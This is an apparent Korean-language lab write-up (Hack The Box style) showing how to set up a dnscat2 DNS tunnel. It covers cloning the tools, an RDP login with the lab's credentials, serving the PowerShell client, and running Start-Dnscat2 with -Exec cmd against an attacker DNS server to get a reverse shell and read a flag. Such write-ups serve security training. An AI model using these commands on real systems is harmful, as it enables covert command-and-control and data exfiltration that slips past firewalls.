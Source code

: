 ```yaml
---
title: "DNS Tunneling with Dnscat2"
date: 2025-10-01
layout: single
excerpt: "**Dnscat2**는 DNS 프로토콜을 이용해 두 호스트 간에 암호화된 터널(커맨드 & 제어 채널)을 구성하는 도구이다. 데이터는 주로 DNS의 TXT 레코드(또는 기타 레코드) 내부에 인코딩되어 전송되며, 일반적인 방화벽/프록시 규칙을 우회하거나 탐지를 어렵게 하는 데 사용될 수 있다. 이 기법은 HTTPS 연결을 차단하거나 트래픽을 스니핑하는 방화벽을 회피하면서 데이터 유출에 악용될 수 있다."
author_profile: true
toc: true
toc_label: "DNS Tunneling"
toc_icon: "globe"
toc_sticky: true
tags: [networking, dns, tunneling, exfiltration, dnscat2]
header:
  teaser: /assets/network-screenshots/dnscat2/dnscat2.png
  teaser_home_page: true
---
```


**Dnscat2**는 DNS 프로토콜을 이용해 두 호스트 간에 암호화된 터널(커맨드 & 제어 채널)을 구성하는 도구이다.  
데이터는 주로 DNS의 TXT 레코드(또는 기타 레코드) 내부에 인코딩되어 전송되며, 일반적인 방화벽/프록시 규칙을 우회하거나 탐지를 어렵게 하는 데 사용될 수 있다.  
이 기법은 HTTPS 연결을 차단하거나 트래픽을 스니핑하는 방화벽을 회피하면서 데이터 유출에 악용될 수 있다.

---

# Dnscat2 설정 및 사용 실습

## 설치

먼저 `dnscat2` 저장소를 클론한다.

```bash
$ git clone https://github.com/iagox86/dnscat2.git

Cloning into 'dnscat2'...
remote: Enumerating objects: 6621, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 6621 (delta 2), reused 0 (delta 0), pack-reused 6611 (from 2)
Receiving objects: 100% (6621/6621), 3.84 MiB | 28.90 MiB/s, done.
Resolving deltas: 100% (4566/4566), done.
```

그후 몇 가지 설정을 한다.

```bash
$ cd dnscat2/server/
$ sudo gem install bundler
$ sudo bundle install
```

설치가 완료되면 클론한 디렉토리에서 `dnscat2` 서버를 시작할 수 있다.

## 서버 시작

클론한 리포지토리의 서버 디렉토리로 이동한 뒤 서버를 실행한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/server-start.png)

서버가 시작되면 콘솔에 `secret(예: c00d7a...)` 이 표시된다. 이 키는 클라이언트와의 암호화/인증에 사용되므로 클라이언트에 동일한 `--secret` 값을 제공해야 안전하게 통신할 수 있다.

## 공격 호스트에 dnscat2-powershell 복제

공격 호스트에 Windows용 클라이언트로 사용할 `dnscat2-powershell`을 클론한다.

```bash
$ git clone https://github.com/lukebaggett/dnscat2-powershell.git

Cloning into 'dnscat2-powershell'...
remote: Enumerating objects: 194, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 194 (delta 0), reused 2 (delta 0), pack-reused 188 (from 1)
Receiving objects: 100% (194/194), 1.27 MiB | 22.74 MiB/s, done.
Resolving deltas: 100% (59/59), done.
```

이후 문제에서 제공한 아이디/비밀번호(`htb-student/HTB_@cademy_stdnt!`) 를 이용하여 RDP 세션에 접속한다.

```bash
$ xfreerdp3 /v:10.129.42.198 /u:htb-student /p:HTB_@cademy_stdnt!
```

이후, `python3` 웹 서버를 열어 공격 호스트에 `dnscat2.ps1` 파일을 옮겨준다.

```bash
$ python3 -m http.server 9999
```

공격 호스트에 `wget` 명령어를 이용하여 다운로드 한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/wget.png)


## 세션 설정

`Import-Module` 명령어를 이용하여 `dnscat2.ps1` 스크립트를 불러온다.

```powershell
C:\Users\htb-student> Import-Module .\dnscat2.ps1
```

이후, 로컬에서 실행 중인 **dnscat2 서버의 주소와 도메인, Secret 키를 사용**해 클라이언트를 시작한다.

```powershell
C:\Users\htb-student> Start-Dnscat2 -DNSserver 10.10.14.89 -Domain inlanefreight.local -PreSharedSecret c00d7a451bf93fa63626874a78d0f5da -Exec cmd
```

설정 후 나의 로컬 쪽 dnscat2 터미널로 돌아가면 다음과 같이 **세션 연결** 로그를 확인할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/session-connect.png)

이후 `dnscat` 콘솔에서 리버스 연결로 생성된 세션 창을 선택(`window -i 1`)하면 `C:\Users\htb-student` 사용자의 쉘을 획득할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/whoami.png)

`whoami` 명령어를 사용하여 해당 세션이 **officemanager 도메인 OR 호스트 소속의 htb-student 계정**임을 확인할 수 있다.

## Flag 획득

문제에서 제공한 `C:\Users\htb-student\Documents\flag.txt` 경로의 파일을 읽어 플래그를 획득하였다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/flag.png)

이로써 **Dnscat2** 실습을 마쳤다.



